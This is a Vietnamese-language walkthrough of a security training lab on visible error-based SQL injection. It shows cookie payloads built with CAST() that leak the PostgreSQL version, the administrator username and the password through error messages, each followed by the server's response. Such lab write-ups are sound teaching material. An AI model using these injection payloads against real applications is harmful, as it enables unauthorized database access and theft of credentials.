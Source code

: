 # **Lab: Visible error-based SQL injection**

>  This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.  

>  The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.  

# **Solution**

Bắt đầu kiểm tra qua web.  
Cookie có:

```
Cookie: TrackingId=Ahjxj06So5XtFnBs; session=b67d9uYKyMQN1UuX4BCXP7QjBAXnBr4K
```

Thử thay đổi giá trị `TrackingId` để phá vỡ logic truy vấn:

```
TrackingId=Ahjxj06So5XtFnBs'
```

Ta thấy `response code: 500` với thông báo lỗi được in ra:  
```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'Ahjxj06So5XtFnBs''. Expected  char
```

Vậy là web có lỗ hổng khiến thông báo lỗi in ra cả phần truy vấn bị lỗi, có thể thử hàm `CAST()`:

```
'|| CAST( (SELECT 'a') AS INT) ||'  

-> ERROR: invalid input syntax for type integer: "a"
  Position: 61
```

Tốt rồi. Giờ là xem database này có gì nào:))

```
'|| CAST((SELECT version()) AS INT) ||'

->  
ERROR: invalid input syntax for type integer: "PostgreSQL 12.18 (Ubuntu 12.18-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit"
```

Là PostgreSql..

```
TrackingId=Ahjxj06So5XtFnBs'|| CAST((SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES) AS INT) ||'

->  
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'Ahjxj06So5XtFnBs'|| CAST((SELECT TABLE_NAME FROM INFORMATION'. Expected  char
```

Tới đây thì có vấn đề rồi, hãy chú ý tới `Expected char`. Mình đoán là do TrackingId có giới hạn về độ dài nên không thể lưu hết cả đoạn câu lệnh. Hãy thử lại cách khác.

```
TrackingId=' --

-> Res code: 200
```

Well.. cách này thì TrackingId ngắn hơn rồi, nhưng mà vẫn không đủ để thưc truy vấn tới information_schema.tables để lấy danh sách các bảng.

Thôi thì đành dùng gợi ý của lab vậy :v

Lab cho sẵn mục tiêu là bảng `users`, 2 cột `username` và `password`. Tài khoản `administrator`. Right??

```
TrackingId='||CAST((SELECT username FROM users LIMIT 1)AS INT)--

->  
ERROR: invalid input syntax for type integer: "administrator"
```

Aghrrrrrr~~ May thật, cái này không được nữa thì chịu :v

```
TrackingId='||CAST((SELECT password FROM users LIMIT 1)AS INT)--

->  
ERROR: invalid input syntax for type integer: "axgz254jyltc8medjhlk"
```

Okeyy Doneee!!!  
So tired~~~

![image](https://i.pinimg.com/736x/70/5f/93/705f93fe08fc12e0da5f79e28073490f.jpg)